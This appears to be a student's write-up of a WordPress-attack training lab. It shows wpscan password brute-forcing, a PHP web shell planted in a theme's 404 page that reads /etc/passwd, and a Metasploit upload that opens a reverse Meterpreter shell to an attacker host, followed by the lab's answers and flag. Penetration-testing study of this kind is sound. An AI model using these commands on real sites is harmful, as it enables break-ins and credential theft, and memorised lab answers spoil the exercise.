

# Attacking Wordpress
## Login Bruteforce

```shellsession
$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

The `--password-attack` flag is used to supply the type of attack. 

## Code Execution
With administrative access to WordPress, we can modify the PHP source code to execute system commands.



```shellsession
$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. We first need to set the necessary options.

```shellsession
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```

## Questions
1. Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present? **Answer:**
   - Run `wpscan` on the target:
        ```shellsession
        $ wpscan --url blog.inlanefreight.local --enumerate --api-token <API_TOKEN>
        [+] doug
        | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
        | Confirmed By: Login Error Messages (Aggressive Detection)
        ```
2. Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer. **Answer:**
   - Perform `xmlrpc` bruteforcing attack against `doug`:
        ```shellsession
        $ wpscan --url http://blog.inlanefreight.local --password-attack xmlrpc -U doug -P /usr/share/wordlists/rockyou.txt 
        <SNIP>
        [!] Valid Combinations Found:
        | Username: doug, Password: jessica1
        <SNIP>
        ```
3. Using the methods shown in this section, find another system user whose login shell is set to /bin/bash. **Answer: webadmin**
   - Change the 404 page of the twenty nineteen theme to include this simple web shell:
        
   - Visit the shell at http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat+/etc/passwd and read the `/etc/passwd` file, find the user with /bin/bash shell set:
        ```
        webadmin:x:1001:1001::/home/webadmin:/bin/bash
        ```
4. Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot. **Answer: l00k_ma_unAuth_rc3! **
   - Use the webshell, find and read the flag:
        ```
        http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=ls%20/var/www/blog.inlanefreight.local/
        ```
        ```
        http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat+/var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
        ```